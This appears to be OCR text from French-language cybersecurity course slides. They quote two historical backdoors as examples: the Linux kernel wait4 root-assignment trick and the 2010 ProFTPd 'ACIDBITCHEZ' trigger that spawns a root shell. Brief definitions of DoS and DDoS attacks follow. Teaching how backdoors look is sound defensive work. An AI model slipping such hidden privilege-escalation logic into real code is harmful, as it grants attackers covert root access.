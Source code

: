 ```c
       if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
                       retval = -EINVAL;
```

* ProFTPd (2010)

```c
if (strcmp(target, "ACIDBITCHEZ") == 0) { setuid(0); setgid(0); system("/bin/sh;/sbin/sh"); }
```

# Cybersécurité
## Types d'attaques et de vulnérabilité
### Déni de service (DoS, DDoS)

Objectif : rendre un système informatique indisponible au service et empêcher des utilisateurs légitimes de l'utiliser.

Habituellement, il s'agit d'envoyer trop de requête pour qu'un système ne puisse plus répondre aux requêtes légitimes.

# Cybersécurité
## Types d'attaques et de vulnérabilité
### Déni de service (DoS, DDoS)

Déni de service distribué (DDoS)

Les requêtes sont envoyé à partir de plusieurs sources.

Beaucoup plus difficile à bloquer car différencier les mauvaises requêtes des bonnes requêtes est très difficile.

#
